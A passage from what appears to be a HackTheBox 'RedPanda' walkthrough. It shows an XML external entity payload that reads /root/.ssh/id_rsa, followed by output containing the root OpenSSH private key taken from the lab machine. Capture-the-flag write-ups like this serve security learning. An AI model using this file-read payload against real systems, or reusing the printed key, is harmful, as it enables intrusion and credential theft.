 ```xml
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY ent SYSTEM "file:///root/.ssh/id_rsa"> ]>
<userInfo>
 <firstName>John</firstName>
 <lastName>&ent;</lastName>
</userInfo>
```

I sent the curl request again to make sure that it gets registered in the logs, and after waiting (so long that I thought that no id_rsa was in the root directory), we get the key:

```xml
woodenk@redpanda:/tmp$ cat mir_creds.xml 
<?xml version="1.0" encoding="UTF-8"?>
<!--?xml version="1.0" ?-->
<!DOCTYPE replace>
<userInfo>
  <firstName>John</firstName>
  <lastName>-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAMwAAAAtzc2gtZW
QyNTUxOQAAACDeUNPNcNZoi+AcjZMtNbccSUcDUZ0OtGk+eas+bFezfQAAAJBRbb26UW29
ugAAAAtzc2gtZWQyNTUxOQAAACDeUNPNcNZoi+AcjZMtNbccSUcDUZ0OtGk+eas+bFezfQ
AAAECj9KoL1KnAlvQDz93ztNrROky2arZpP8t8UgdfLI0HvN5Q081w1miL4ByNky01txxJ
RwNRnQ60aT55qz5sV7N9AAAADXJvb3RAcmVkcGFuZGE=
-----END OPENSSH PRIVATE KEY-----</lastName>
</userInfo>
```

<p align="center">
  <img src="/images/walkthrougshs/hackthebox/redpanda/7_1_root_in.png" width="90%"/>
</p>

